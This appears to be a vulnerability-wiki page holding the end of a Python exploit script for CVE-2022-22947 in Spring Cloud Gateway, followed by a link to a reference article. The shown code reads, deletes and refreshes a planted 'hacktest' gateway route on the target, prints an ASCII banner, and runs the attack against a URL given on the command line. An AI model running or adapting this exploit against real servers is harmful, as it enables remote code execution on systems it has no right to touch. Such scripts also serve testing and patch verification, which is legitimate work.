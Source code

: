 ```python
    re3 = requests.get(url=url + "/actuator/gateway/routes/hacktest",headers=headers2)
    re4 = requests.delete(url=url + "/actuator/gateway/routes/hacktest",headers=headers2)
    re5 = requests.post(url=url + "/actuator/gateway/refresh" ,headers=headers2)
    print(re3.text)


if __name__ == "__main__":
  print('''   ██████  ██      ██ ████████        ████   ████   ████   ████         ████   ████   ████     ██  ██████
  ██░░░░██░██     ░██░██░░░░░        █░░░ █ █░░░██ █░░░ █ █░░░ █       █░░░ █ █░░░ █ █░░░ █   █░█ ░░░░░░█
 ██    ░░ ░██     ░██░██            ░    ░█░█  █░█░    ░█░    ░█      ░    ░█░    ░█░█   ░█  █ ░█      ░█
░██       ░░██    ██ ░███████  █████   ███ ░█ █ ░█   ███    ███  █████   ███    ███ ░ ████  ██████     █ 
░██        ░░██  ██  ░██░░░░  ░░░░░   █░░  ░██  ░█  █░░    █░░  ░░░░░   █░░    █░░   ░░░█  ░░░░░█     █  
░░██    ██  ░░████   ░██             █     ░█   ░█ █      █            █      █        █       ░█    █   
 ░░██████    ░░██    ░████████      ░██████░ ████ ░██████░██████      ░██████░██████  █        ░█   █    
  ░░░░░░      ░░     ░░░░░░░░       ░░░░░░  ░░░░  ░░░░░░ ░░░░░░       ░░░░░░ ░░░░░░  ░         ░   ░     
 ██                   ██                 ██                              
░██       ██   ██    ░██                ░██                              
░██      ░░██ ██     ░██ ██   ██  █████ ░██  ██  ██████  ███████   █████ 
░██████   ░░███      ░██░██  ░██ ██░░░██░██ ██  ██░░░░██░░██░░░██ ██░░░██
░██░░░██   ░██    ██ ░██░██  ░██░██  ░░ ░████  ░██   ░██ ░██  ░██░███████
░██  ░██   ██    ░░  ░██░██  ░██░██   ██░██░██ ░██   ░██ ░██  ░██░██░░░░ 
░██████   ██      ██ ███░░██████░░█████ ░██░░██░░██████  ███  ░██░░██████
░░░░░    ░░      ░░ ░░░  ░░░░░░  ░░░░░  ░░  ░░  ░░░░░░  ░░░   ░░  ░░░░░░ 
usage: python3 test.py url
''')
  if(len(sys.argv)>1):
    url = sys.argv[1]
    exec(url)
  else:
    exit()
```

## 参考文章

<a-alert type="success" message="https://mp.weixin.qq.com/s/lKKOUvWqU1Qpexus5u_3Uw" description="" showIcon>
</a-alert>
<br/>